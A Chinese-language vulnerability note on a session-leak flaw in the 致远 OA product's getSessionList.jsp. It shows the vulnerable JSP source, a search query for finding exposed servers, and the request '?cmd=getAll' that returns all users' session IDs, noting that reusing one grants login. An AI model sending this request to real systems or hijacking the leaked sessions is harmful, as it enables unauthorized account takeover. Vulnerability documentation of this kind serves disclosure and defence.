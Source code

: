# 致远OA getSessionList.jsp Session泄漏漏洞

## 漏洞描述

通过使用存在漏洞的请求时，会回显部分用户的Session值，导致出现任意登录的情况

## 影响版本

<a-checkbox checked>未知</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="致远互联-OA"</a-checkbox></br>

## 漏洞复现

出现漏洞的源码

```java
<%@ page contentType="text/html;charset=GBK"%>
<%@ page session= "false" %>
<%@ page import="net.btdz.oa.ext.https.*"%>
<%
    String reqType = request.getParameter("cmd");
    String outXML = "";
    boolean allowHttps = true;
    if("allowHttps".equalsIgnoreCase(reqType)){
        //add code to judge whether it allow https or not
        allowHttps = FetchSessionList.checkHttps();
        if (allowHttps) response.setHeader("AllowHttps","1");
    }
    if("getAll".equalsIgnoreCase(reqType)){
        outXML = FetchSessionList.getXMLAll();
    }
    else if("getSingle".equalsIgnoreCase(reqType)){
        String sessionId = request.getParameter("ssid");
        if(sessionId != null){
            outXML = FetchSessionList.getXMLBySessionId(sessionId);
        }
    }
    else{
        outXML += "<?xml version=\"1.0\" encoding=\"GB2312\"?>\r\n";
        outXML += "<SessionList>\r\n";
//        outXML += "<Session>\r\n";
//        outXML += "</Session>\r\n";
        outXML += "</SessionList>\r\n";
    }
    out.println(outXML);
%>
```



从上面的代码可知，当cmd参数为getAll时，便可获取到所有用户的SessionID ,请求

```plain
/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

回显Session则存在漏洞



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zhiyuan-21.png)



通过替换 Session即可登陆系统



## 